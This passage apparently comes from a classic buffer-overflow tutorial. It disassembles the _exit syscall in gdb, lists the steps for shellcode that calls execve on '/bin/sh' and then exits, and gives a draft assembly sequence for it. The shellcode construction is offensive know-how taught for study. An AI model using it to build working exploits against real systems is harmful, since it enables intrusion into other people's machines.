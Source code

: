 </PRE>
```nasm
[aleph1]$ gcc -o exit -static exit.c
[aleph1]$ gdb exit
(no debugging symbols found)...
(gdb) disassemble _exit
Dump of assembler code for function _exit:
0x800034c <_exit>:      pushl  %ebp
0x800034d <_exit+1>:    movl   %esp,%ebp
0x800034f <_exit+3>:    pushl  %ebx
0x8000350 <_exit+4>:    movl   $0x1,%eax
0x8000355 <_exit+9>:    movl   0x8(%ebp),%ebx
0x8000358 <_exit+12>:   int    $0x80
0x800035a <_exit+14>:   movl   0xfffffffc(%ebp),%ebx
0x800035d <_exit+17>:   movl   %ebp,%esp
0x800035f <_exit+19>:   popl   %ebp
0x8000360 <_exit+20>:   ret
0x8000361 <_exit+21>:   nop
0x8000362 <_exit+22>:   nop
0x8000363 <_exit+23>:   nop
End of assembler dump.
```
<PRE>

   The exit syscall will place 0x1 in EAX, place the exit code in EBX,
and execute "int 0x80".  That's it.  Most applications return 0 on exit to
indicate no errors.  We will place 0 in EBX.  Our list of steps is now:

	a) Have the null terminated string "/bin/sh" somewhere in memory.
	b) Have the address of the string "/bin/sh" somewhere in memory
	   followed by a null long word.
	c) Copy 0xb into the EAX register.
	d) Copy the address of the address of the string "/bin/sh" into the
	   EBX register.
	e) Copy the address of the string "/bin/sh" into the ECX register.
	f) Copy the address of the null long word into the EDX register.
	g) Execute the int $0x80 instruction.
	h) Copy 0x1 into the EAX register.
	i) Copy 0x0 into the EBX register.
	j) Execute the int $0x80 instruction.

   Trying to put this together in assembly language, placing the string
after the code, and remembering we will place the address of the string,
and null word after the array, we have:

</PRE>
```nasm
      movl   string_addr,string_addr_addr
      movb   $0x0,null_byte_addr
      movl   $0x0,null_addr
      movl   $0xb,%eax
      movl   string_addr,%ebx
      leal   string_addr,%ecx
      leal   null_string,%edx
      int    $0x80
      movl   $0x1, %eax
      movl   $0x0, %ebx
      int    $0x80
      /bin/sh string goes here.
```
<PRE>
